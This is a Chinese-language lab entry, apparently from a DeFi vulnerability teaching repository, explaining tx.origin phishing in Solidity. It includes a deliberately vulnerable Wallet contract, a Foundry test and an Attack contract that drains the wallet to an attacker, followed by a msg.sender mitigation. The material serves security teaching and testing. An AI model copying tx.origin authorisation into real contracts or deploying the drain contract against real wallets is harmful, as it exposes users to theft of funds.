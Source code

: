 # txorigin-网络钓鱼  
[txorigin.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/txorigin.sol)  
**名称：** 不安全的tx.origin漏洞  
tx.origin是Solidity中的一个全局变量，在智能合约中使用此变量进行身份验证会使合约容易受到网络钓鱼攻击。  

**场景：**  
Wallet是一个简单的合约，只有所有者才能转移以太币到另一个地址。Wallet.transfer()使用tx.origin来检查调用者是否是所有者。让我们看看我们如何破解这个合约。  


**发生了什么？**  
Alice被骗去调用Attack.attack().在Attack.attack()函数中，有将Alice钱包中的所有资金转移到Eve的地址的操作。由于Wallet.transfer()中的tx.origin等于Alice的地址，因此它授权了转移。钱包将所有以太币转移给了Eve。

**缓解建议：**  
建议使用msg.sender。  
**参考：**  
https://hackernoon.com/hacking-solidity-contracts-using-txorigin-for-authorization-are-vulnerable-to-phishing  

**合约：**  
```
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        // 使用msg.sender去检查而不是tx.origin
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
``` 
**如何测试：**  
forge test --contracts src/test/txorigin.sol -vvvv  
```
// 用于测试使用tx.origin的漏洞的函数。
function testtxorigin() public {
    // “alice”和“eve”的地址是从以太坊虚拟机中获取的。
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    // Alice得到10个以太币，Eve得到1个以太币。
    vm.deal(address(alice), 10 ether);
    vm.deal(address(eve), 1 ether);

    // 对Alice进行作恶
    vm.prank(alice);

    // Alice部署了一个包含10个以太币的钱包合约。
    WalletContract = new Wallet{value: 10 ether}();

    // 将记录钱包合约的所有者。
    console.log("Owner of wallet contract", WalletContract.owner());

    // 对Eve进行作恶
    vm.prank(eve);

    // Eve部署了一个攻击合约，并提供Alice钱包合约的地址。
    AttackerContract = new Attack(WalletContract);

    // 记录攻击合约的所有者。
    console.log("Owner of attack contract", AttackerContract.owner());

    // 记录Eve的余额。
    console.log("Eve of balance", address(eve).balance);

    // Alice被骗调用attack函数
    vm.prank(alice, alice);
    AttackerContract.attack();

    // 记录tx.origin地址和msg.sender地址。
    console.log("tx origin address", tx.origin);
    console.log("msg.sender address", msg.sender);

    // 记录Eve的更新后的余额。
    console.log("Eve of balance", address(eve).balance);
}

// Attack合约用于攻击Wallet合约对漏洞。
contract Attack {
    address payable public owner;
    Wallet wallet;

    // 构造函数将Wallet合约作为参数。
    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    // attack函数将所有以太币从Wallet合约转移到Attack合约的所有者。
    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
``` 
**红框：** 转移所有的以太币到Eve了。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F4311be5d-785a-4446-886f-02787a9e7ba4%2FUntitled.png?table=block&id=02802dc6-5cc0-4060-aeb5-dc82768f57d3&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)